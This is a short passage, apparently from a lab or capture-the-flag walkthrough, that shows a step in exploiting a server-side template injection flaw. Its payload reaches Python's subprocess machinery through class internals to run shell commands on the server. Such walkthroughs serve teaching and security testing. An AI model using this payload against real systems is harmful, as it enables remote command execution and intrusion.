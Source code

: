 ![img-17](./img/img-17.png)

You managed to execute remote commands!

9. Now that remote commands are possible, see which directory we are in. Go to the payload and changing `whoami` to `pwd`.

```
{{2022.__class__.__mro__[1].__subclasses__()[312]('pwd', shell=True, stdout=-1).communicate()}}
```

![img-18](./img/img-18.png)
